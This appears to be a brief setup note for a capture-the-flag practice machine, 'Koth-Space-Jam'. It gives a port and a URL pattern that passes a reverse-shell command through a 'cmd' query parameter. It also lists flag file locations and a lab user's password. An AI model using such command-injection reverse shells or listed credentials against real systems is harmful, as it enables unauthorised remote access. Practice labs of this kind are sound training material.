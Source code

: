 # Koth-Space-Jam -->

port: 3000

you will need to create a shell using the parameters:
http://<IP>/?cmd=<REVERSE_SHELL>

# the flags will be in:
/root/root.txt
/home/jordan/user.txt
/home/bunny/user.txt: same as above

# Users:
Jordan
passwd: pass123

# ---END---
